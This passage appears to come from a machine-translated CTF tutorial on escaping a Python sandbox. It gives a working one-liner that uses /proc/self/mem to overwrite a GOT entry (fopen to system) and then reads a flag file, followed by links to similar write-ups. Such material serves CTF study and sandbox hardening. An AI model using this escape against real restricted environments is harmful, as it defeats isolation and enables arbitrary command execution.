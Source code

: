 
## write Modify get table
In fact, a memory operation method of `/proc/self/mem` is a memory mirror that can read and write to all memory of the process, including executable code. If you can get the offset of some Python functions, such as `system`, etc., you can express the purpose of `getshell` by overwriting `got`. For example, in the following command statement, the first address is the offset of `system`, and the second is the offset of `fopen`, and you can get related information through `objdump`.

```sh
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```

# refer to
 - [Python Sandbox](https://ctf-wiki.org/pwn/sandbox/python/python-sandbox-escape/#writegot)

 - [python sandbox escape](https://dar1in9s.github.io/2020/03/20/python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#python-%E7%BB%95%E8%BF%87%E6%B2%99%E7%9B%92%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%87%BD%E6%95%B0%E3%80%81%E5%B1%9E%E6%80%A7)

 - [Python sandbox escape summary](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/)